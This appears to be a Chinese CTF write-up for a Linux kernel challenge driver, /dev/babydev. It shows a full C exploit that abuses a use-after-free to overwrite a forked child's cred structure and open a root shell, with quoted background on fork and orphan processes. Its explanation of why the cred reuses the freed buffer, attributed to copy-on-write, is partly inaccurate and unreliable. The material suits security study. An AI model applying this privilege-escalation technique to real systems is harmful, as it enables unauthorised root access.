 同样是两次打开设备，这里使用了fork函数产生了一个子进程，利用打开的设备修改子进程的cred结构体。至于为什么这里要使用fork函数，就需要了解一下fork函数的工作原理了。

> fork（）会产生一个和父进程完全相同的子进程，但子进程在此后多会exec系统调用，出于效率考虑，linux中引入了“写时复制“技术，也就是只有进程空间的各段的内容要发生变化时，才会将父进程的内容复制一份给子进程。在fork之后exec之前两个进程用的是相同的物理空间（内存区），子进程的代码段、数据段、堆栈都是指向父进程的物理空间，也就是说，两者的虚拟空间不同，但其对应的物理空间是同一个。当父子进程中有更改相应段的行为发生时，再为子进程相应的段分配物理空间，如果不是因为exec，内核会给子进程的数据段、堆栈段分配相应的物理空间（至此两者有各自的进程空间，互不影响），而代码段继续共享父进程的物理空间（两者的代码完全相同）。而如果是因为exec，由于两者执行的代码不同，子进程的代码段也会分配单独的物理空间。
————————————————
版权声明：本文为CSDN博主「狂奔的乌龟」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/xy010902100449/article/details/44851453

当我们fork出一个子进程时，子进程的cred结构体指针与父进程的指针值是一样的，但实际指向的物理地址已经发生了改变。如果我们事先将buf的大小改为cred结构体的大小，那么在fork出子进程时，内核就会将子进程的cred结构体分配到buf的位置，我们也就能够对其进行随意修改。不过笔者尚未找到一种快捷的计算cred、tty_operations等这类结构体的大小，只能一个类型一个类型向前找定义。若读者有更好的方法，还请不吝赐教。

exp：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

int main(){
	int f1 = open("/dev/babydev", 2);
	int f2 = open("/dev/babydev", 2);
	
	ioctl(f1, 0x10001, 0xa8);
	close(f1);
	
	int pid = fork();
	if(pid == 0){
		char buf[28] = {0};
		write(f2, buf, 28);
		printf("\033[34m\033[1m[*] The uid now is: %d.\033[0m\n", getuid());
		system("/bin/sh");
	}else if(pid < 0){
		printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\033[0m\n");
	}else{
		wait(NULL);
	}
	return 0;
}
```

注意：**这里的wait(NULL)不可缺少**，因为子进程不允许没有父进程存在，在子进程执行system时需要让父进程阻塞。如果没有这条语句，程序将会直接退出，子进程将会称为孤儿进程：

> （摘自[资料](https://blog.csdn.net/tennysonsky/article/details/45969569?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165136928416781432992726%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165136928416781432992726&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-45969569.142^v9^control,157^v4^control&utm_term=linux+%E5%AD%A4%E5%84%BF%E8%BF%9B%E7%A8%8B&spm=1018.2226.3001.4187)）
> 孤儿进程是没有父进程的进程，为避免孤儿进程退出时无法释放所占用的资源而变为僵尸进程（什么是僵尸进程，请看[《特殊进程之僵尸进程》](https://blog.csdn.net/tennysonsky/article/details/45966571)），进程号为 1 的 init 进程将会接受这些孤儿进程，这一过程也被称为“收养”。init 进程就好像是一个孤儿院，专门负责处理孤儿进程的善后工作。每当出现一个孤儿进程的时候，内核就把孤 儿进程的父进程设置为 init ，而 init 进程会循环地 wait() 它的已经退出的子进程。这样，当一个孤儿进程凄凉地结束了其生命周期的时候，init 进程就会代表党和政府出面处理它的一切善后工作。因此孤儿进程并不会有什么危害。
